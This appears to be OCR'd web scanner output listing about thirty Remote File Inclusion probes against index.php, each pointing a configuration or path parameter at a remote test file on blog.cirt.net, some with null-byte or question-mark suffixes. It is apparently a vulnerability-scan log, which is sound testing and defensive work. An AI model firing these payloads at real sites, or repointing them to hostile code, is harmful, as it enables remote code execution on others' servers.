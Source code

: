 + /index.php?1=lol&PAGES[lol]=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?AML_opensite=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?AMV_openconfig=1&AMV_serverpath=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?CONFIG[MWCHAT_Libs]=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?ConfigDir=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?DIR_PLUGINS=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?G_JGALL[inc_path]=http://blog.cirt.net/rfiinc.txt%00: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?HomeDir=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?Lang=AR&Page=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?Madoa=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?RP_PATH=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?_REQUEST=&_REQUEST[option]=com_content&_REQUEST[Itemid=1&GLOBALS=&mosConfig_absolute_path=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?_REQUEST=&_REQUEST[option]=com_content&_REQUEST[Itemid]=1&GLOBALS=&mosConfig_absolute_path=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?abg_path=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?abs_path=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?abs_path=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?adduser=true&lang=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?adodb=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?ads_file=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?arquivo=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?back=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?base==http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?basePath=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?bibtexrootrel=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?blog_dc_path=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?blog_theme=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?body=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?class_path=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?classified_path=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?cms=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?config[\"sipssys\"]=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2